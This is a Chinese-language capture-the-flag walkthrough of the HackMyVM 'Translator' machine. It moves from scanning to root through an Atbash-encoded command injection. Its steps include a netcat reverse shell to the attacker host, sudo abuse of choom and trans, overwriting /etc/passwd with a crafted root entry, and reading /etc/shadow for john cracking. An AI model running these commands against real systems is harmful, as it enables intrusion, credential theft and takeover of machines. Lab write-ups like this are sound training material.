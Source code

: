 [HackMyVm - Translator - YouTube](https://www.youtube.com/watch?v=xs6Pw9y_Ayg)
>|   |   |   |
|---|---|---|
|translator|easy|命令执行、sudo提权、trans 提权|
# 主机发现
```C
netdiscover -i eth0 -r 192.168.44.193/24
```
# 服务探测
```C
nmap -sV -A -T4 -p- 192.168.44.134
```
得到只开放了80和22端口

# 目录爆破

```css
gobuster dir -u http://192.168.44.134/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,txt,php
```

只是个输入框，尝试输入，发现我们输入的字符被替换了然后显示
尝试发现是26个字母倒叙替换
也可以通过https://www.dcode.fr/cipher-identifier 发现是使用atbash编码
但我直接写了个脚本
```Python
import sys

def reverse_alphabet_substitution(text):
    # 定义倒序字母映射字典
    reversed_alphabet = {
        'A': 'Z', 'B': 'Y', 'C': 'X', 'D': 'W', 'E': 'V',
        'F': 'U', 'G': 'T', 'H': 'S', 'I': 'R', 'J': 'Q',
        'K': 'P', 'L': 'O', 'M': 'N', 'N': 'M', 'O': 'L',
        'P': 'K', 'Q': 'J', 'R': 'I', 'S': 'H', 'T': 'G',
        'U': 'F', 'V': 'E', 'W': 'D', 'X': 'C', 'Y': 'B',
        'Z': 'A',
    }

    # 使用映射字典替换文本中的字母
    result = ''.join(reversed_alphabet.get(c.upper(), c) for c in text)

    return result.lower()

args = sys.argv

print(args[1])
# 示例文本
input_text = args[1]

# 应用替换函数
output_text = reverse_alphabet_substitution(input_text)

print(output_text)

```

# 反弹SHELL
sh -i >& /dev/tcp/ 192.168.44.128 / 9001 0>&1不行
```C
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ python translater.py nc+-e+/bin/bash+192.168.44.128+9001
nc+-e+/bin/bash+192.168.44.128+9001
mx -v /yrm/yzhs 192.168.44.128 9001
```
访问`http://192.168.44.134/translate.php?hmv=rw;mx -v /yrm/yzhs 192.168.44.128 9001

刚监听的shell不太好用，使用下面这条命令打开一个pty伪终端
```C
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm //设置终端类型为常见的xterm环境变量
stty -a//以容易阅读的方式打印当前的所有配置
stty raw -echo;fg//- 通过 `stty raw -echo` 将当前终端设置为原始模式并关闭回显。接着，使用分号 `;` 立即执行下一条命令。最后，`fg` 命令将最近放入后台的作业切换到前台运行，此时由于终端已处于原始模式且回显关闭，该作业可以直接接收用户的无干扰、未经处理的键盘输入。
reset //重新初始化终端
```
# 提权
[使用sudo进行Linux权限升级技巧 - 渗透测试中心 - 博客园](https://www.cnblogs.com/backlion/p/10504003.html)
**配置 sudo [命令](https://links.jianshu.com/go?to=https%3A%2F%2Fwww.linuxcool.com%2F)在运行时而不输入密码。** |此设置在 /etc/sudoers文件中完成，这是使用 sudo [命令](https://links.jianshu.com/go?to=https%3A%2F%2Fwww.linuxcool.com%2F)的默认安全策略；在用户权限指定部分

尝试读取第一个flag读取不到cat /home/ocean/user.txt

```C
cat hvxivg

┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ python translater.py Mb+kzhhdliw+rh+zbfie3w4          
Mb+kzhhdliw+rh+zbfie3w4
ny password is ayurv3d4
```
利用sudo 提权到india 账号
https://gtfobins.github.io/gtfobins/choom/
```C
su ocean //输入密码：ayurv3d4
sudo -l
//发现有个(india) NOPASSWD: /usr/bin/choom   这可以让我免密提权至india用户权限
```

也可以直接ssh：`ssh ocean@192.168.44.134

**choom**      命令是 util-linux 软件包的一部分
不会用这个命令就去找man：[choom(1) - Linux manual page](https://man7.org/linux/man-pages/man1/choom.1.html)
[Ubuntu Manpage: choom - display and adjust OOM-killer score.](https://manpages.ubuntu.com/manpages/focal/en/man1/choom.1.html)

```C
sudo -u india /usr/bin/choom -n 0 /bin/sh
script /dev/null -c bash
```

```C
sudo -l //(root) NOPASSWD: /usr/local/bin/trans
sudo -u root /usr/local/bin/trans//尝试以root权限运行该翻译软件
man /usr/local/bin/trans   //不会就问man,查看帮助命令
```

cat /etc/passwd发现可以显示，添加root用户
```C
cat /etc/passwd
cp /etc/passwd /tmp/passwd.bak
cp /etc/passwd /tmp/file
在kali中生成一个密码
mkpasswd -m sha-512
复制值到file的最后一行中,并按照格式修改成root用户hack:$6$8NJrwgxTZMywbrec$f7JVOZGjIXI0UnN6Ovdv0kzyqiWkhqpIgBOyJOX2AHX4Z4SGuBo8D17cYAolVkVbEtNwQ75ze90uhHbIsA21a0:0:0:root:/root:/bin/bash

sudo -u root /usr/local/bin/trans -i /tmp/file -o /etc/passwd -no-auto
su hack //密码：123
```

```C
root@translator:~# cat root.txt
h87M5364V2343ubvgfy
root@translator:~# cat /home/ocean/user.txt
a6765hftgnhvugy473f
```

方法二：
利用trans 进行提权，命令介绍：https://www.jianshu.com/p/da570df21ae8
这个是google的shell下翻译工具，所以google需要科学上网，我们在后面加上了-x代理，成功读取到shadow文件
```Css
sudo /usr/local/bin/trans -i /etc/shadow -x http://192.168.31.11:7890 -no-auto

sudo /usr/local/bin/trans -i /root/root.txt -x http://192.168.31.11:7890 -no-auto
```
读取后使用john 进行爆破，但是没有爆破出来。

```css
john shadow --wordlist=/usr/share/wordlists/rockyou.txt --format=crypt
```
也可以通过如下命令直接提权到root，反正我是不成功

```css
sudo /usr/local/bin/trans -pager less -x http://192.168.31.11:7890
```
